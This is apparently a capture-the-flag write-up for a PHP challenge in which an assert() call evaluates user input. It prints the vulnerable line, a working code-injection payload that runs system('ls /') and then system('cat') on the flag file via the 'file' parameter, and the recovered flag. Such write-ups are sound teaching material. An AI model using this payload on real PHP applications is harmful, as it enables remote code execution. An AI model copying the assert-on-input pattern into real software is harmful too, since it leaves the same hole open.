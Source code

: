 ```yaml
---
ai_date: '2025-04-27 05:18:17'
ai_summary: User-supplied code execution via string manipulation in PHP assert statement
ai_tags:
- xss
- cmd-injection
- rce
created: 2024-07-19T15:44
points: 100
solves: 518
tags:
- php
- assert
updated: 2024-07-21T18:39
---
```


## assert

```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

This line is dangerous as the assert statement is acting as `eval`.
It is running user supplied strings as code.

Our payload is hence simple.
## solve script

```python
import requests
import urllib.parse
payload = urllib.parse.quote_plus("'.die(system('ls /')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)

payload = urllib.parse.quote_plus("'.die(system('cat /flag-cARdaInFg6dD10uWQQgm.txt')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)
```

```flag
ictf{assertion_failed_e3106922feb13b10}
```